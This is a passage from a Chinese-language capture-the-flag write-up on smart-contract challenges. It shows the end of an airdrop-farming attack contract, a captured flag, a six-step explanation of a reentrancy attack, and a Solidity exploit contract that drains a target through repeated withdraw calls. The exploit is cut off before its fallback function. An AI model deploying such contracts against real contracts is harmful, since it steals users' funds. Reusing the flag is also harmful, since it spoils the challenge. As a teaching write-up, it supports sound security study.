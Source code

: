 ```solidity
    
    constructor(address _target) {
        targetAirdrop = IAirDrop(_target);
        attackContract = msg.sender;
    }
    
    // 领取空投
    function collect() external {
        targetAirdrop.profit();
    }
    
    // 将代币转回给攻击合约
    function transferBack() external {
        require(msg.sender == attackContract, "Only attack contract can call");
        targetAirdrop.transfer(attackContract, 20);
    }
}
```



![image-20241210025231471](https://bu.dusays.com/2024/12/10/67573c6d8d8fa.png)

flag: ssec2024{nOw_YoU_KnOw_hoW_7O_A1RDrOP_HuNTIn9|db3129cf}

## 重入攻击

攻击思路如下：

1. 攻击合约先调用目标合约的 donate 函数,存入一定数量的以太币(如0.001 ether)。这是为了让攻击合约在目标合约中有初始余额。

2. 攻击合约再调用目标合约的 withdraw 函数,传入的提款金额为刚才存入的0.001 ether。

3. 目标合约会先检查余额是否足够,此时攻击合约是有0.001 ether余额的,所以检查通过。

4. 接下来目标合约直接通过 call 把 0.001 ether 发送给攻击合约。

5. 由于攻击合约实现了 fallback/receive 函数,在收到目标合约的转账时,fallback 会被触发。在 fallback 中,我们再次调用目标合约的 withdraw。

6. 这时候重入发生了。目标合约的 balances 变量还没来得及减去 0.001 ether,又进入了 withdraw。于是重复步骤3-5,直至目标合约的余额被取光。



exp：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceExploit {
    IReentrance public target;
    uint targetBalance;

    constructor(address _target) {
        target = IReentrance(_target);
    }

    function attack() external payable {
        target.donate{value: 0.001 ether}(address(this));
        emit Log("Attacked contract initial balance:", address(this).balance);
        targetBalance = address(target).balance;
        target.withdraw(0.001 ether);
        payable(msg.sender).transfer(address(this).balance);
    }
```